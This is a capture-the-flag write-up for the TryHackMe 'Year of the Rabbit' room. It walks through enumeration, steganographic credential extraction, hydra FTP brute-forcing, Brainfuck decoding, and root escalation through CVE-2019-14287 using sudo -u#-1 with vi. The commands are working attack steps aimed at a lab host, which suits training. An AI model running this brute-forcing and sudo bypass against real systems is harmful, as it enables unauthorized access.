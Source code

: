 # Year of the Rabbit – TryHackMe Writeup

## Overview  
**Year of the Rabbit** is categorized as an *Easy* room, but it packs several clever puzzles: steganography, FTP brute-forcing, Brainfuck decoding, and a subtle privilege escalation via a `sudo` vulnerability (CVE-2019-14287). The path taken here matches community write-ups and your walkthrough.

---

## 1. Enumeration

### Nmap Scan
```bash
nmap -sC -sV 10.201.20.145
```
**Results**:
- Port 21 – vsftpd 3.0.2 (FTP)  
- Port 22 – OpenSSH 6.7p1 (SSH)  
- Port 80 – Apache 2.4.10 (HTTP)  

---

## 2. Web Enumeration & Steganography

### Finding Hidden Directories
Use Gobuster to discover `/assets/` directory:
```bash
gobuster dir -u http://10.201.20.145 -w /usr/share/wordlists/dirb/common.txt
```

### Inspect the Stylesheet
`/assets/style.css` revealed a hint:
```css
/* Nice to see someone checking the stylesheets.
   Take a look at the page: /sup3r_s3cr3t_fl4g.php
*/
```

### JavaScript Redirect Trick
Accessing `/sup3r_s3cr3t_fl4g.php` redirects you via JavaScript—disable JS or view headers to capture:
```
Location: intermediary.php?hidden_directory=/WExYY2Cv-qU
```
Visiting the hidden directory reveals `Hot_Babe.png`.

---

## 3. FTP Access via Hidden Credentials

### Extracting FTP Credentials
Use:
```bash
strings Hot_Babe.png
```
This revealed:
```
ftpuser
...a long list of possible passwords...
```

### Brute-Force FTP with Hydra
```bash
hydra -l ftpuser -P passwords.txt ftp://10.201.20.145
```
You crack the password quickly.  

### Download `Eli’s_Creds.txt`
Log in with FTP and retrieve the file—its content is Brainfuck code.

---

## 4. SSH Access via Brainfuck Decoding

### Decode Brainfuck
Use an online interpreter (or local tool) to decode the Brainfuck string in `Eli’s_Creds.txt`, yielding:
```
Username: eli  
Password: <found password>
```

### SSH into the Box
```bash
ssh eli@10.201.20.145
```
Upon login, see a message:
```
Message from Root to Gwendoline:
“...Check our leet s3cr3t hiding place...”
```

---

## 5. Switching to Gwendoline

### Discover Hidden File
Search for “s3cr3t” files:
```bash
find / -iname '*s3cr3t*' 2>/dev/null
```
Inside, you find:
```
/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
```
It reveals Gwendoline’s password.  

### Switch User & Capture user.txt
```bash
su gwendoline
cd ~
cat user.txt
```

---

## 6. Privilege Escalation – Root via `sudo(vi)` Trick

### Check sudo privileges
```bash
sudo -l
```
Shows:  
```
(ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

### Exploit `CVE-2019-14287`
By using `-u#-1`, we bypass the `!root` restriction:
```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```
Once `vi` opens, spawn a shell:
```
:!/bin/bash
```
– now a root shell.  

---

## 7. Capture Root Flag
```bash
cd /root
cat root.txt
```

---

##  Flags
- **User flag (Gwendoline):** `THM{...}`  
- **Root flag:** `THM{...}`  

*(Actual flags omitted for spoiler safety.)*

---

##  Key Lessons Learned
- CSS files may contain hidden clues—always inspect them.  
- `strings` is a powerful first step for extracting embedded credentials.  
- Brainfuck is a rare but interesting encoding; online interpreters help.  
- `sudo -u#-1` is a sneaky bypass for misconfigured `NOPASSWD` sudo privileges.

---

##  References
- Cloufish’s walkthrough ([cloufish.github.io](https://cloufish.github.io/blog/posts/Year_Of_The_Rabbit/?utm_source=chatgpt.com))  
- Medium write-up by Carson Shaffer ([blog.carsonshaffer.me](https://blog.carsonshaffer.me/tryhackme-year-of-the-rabbit-writeup-4c9b7eede4e4?utm_source=chatgpt.com))  
- FMash16 blog walkthrough ([fmash16.github.io](https://fmash16.github.io/content/writeups/tryhackme/thm-Year-of-the-Rabbit.html?utm_source=chatgpt.com))  
- Z3pH7 & other community writeups ([medium.com](https://medium.com/%40Z3pH7/tryhackme-year-of-the-rabbit-write-up-thm-9f74dbd7505c?utm_source=chatgpt.com), [jarilaurila.medium.com](https://jarilaurila.medium.com/writeup-thm-year-of-the-rabbit-bb2aad0c55c8?utm_source=chatgpt.com))
